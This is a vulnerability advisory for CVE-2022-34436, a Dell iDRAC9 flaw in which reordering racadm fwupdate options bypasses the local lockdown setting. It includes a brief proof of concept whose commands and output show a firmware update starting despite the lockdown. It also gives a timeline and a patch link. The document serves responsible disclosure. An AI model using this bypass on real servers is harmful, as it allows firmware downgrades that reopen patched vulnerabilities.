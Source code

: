 ```yaml
---
title: 'Dell: iDRAC Locked-down Configuration Bypass'
severity: Moderate
ghsa_id: GHSA-vv3q-fxxr-mcgf
cve_id: CVE-2022-34436
weaknesses: []
products:
- ecosystem: Dell
  package_name: iDRAC
  affected_versions: v9
  patched_versions: ''
cvss: null
credits: []
---
```


**Summary**
The Google Cloud Security team identified a bypass of the locked-down configuration Dell provides to mitigate host to iDRAC attack vectors.

**Severity**
Moderate - There is a significant risk of exploitation in deployment scenarios where iDRAC must be protected.  However, there is no evidence to support that this vulnerability has been exploited in the wild yet.

**Proof of Concept**
The team observed that in iDRAC9, `racadm` ` fwupdate` is still possible when the system is locked down via `idrac.localsecurity.localconfig` enabled.
The iDRAC will reject fwupdate commands if the first option is one of:
fwupdate -p
fwupdate -g
fwupdate -f
However the attacker just needs to change the order of command-line options to bypass the check on the iDRAC side. 

``
[root@esxi-111221:~] racadm fwupdate -f 192.168.0.10 test test -d firmimgFIR.d9
ERROR: SWC0245 : Failed to set object value because local configuration using
        RACADM is disabled.
[root@esxi-111221:~] racadm fwupdate -d firmimgFIR.d9 -f 192.168.0.10 test test
FTP firmware update has been initiated. This update process
may take several minutes to complete. Please check the update status
using fwupdate -s command.
``
In systems where host-to-iDRAC isolation is important, an attacker could leverage this vulnerability to flash old firmware versions in order to exploit patched vulnerabilities even when `idrac.localsecurity.localconfig` is enabled.

**Further Analysis**
Vulnerability [patch and advisory](https://www.dell.com/support/kbdoc/en-us/000205346/dsa-2022-265-dell-idrac8-and-dell-idrac9-security-update-for-a-racadm-vulnerability) 

**Timeline**
Date reported:8/25/2022
Date fixed: 11/14/2022
Date disclosed: 12/14/2022
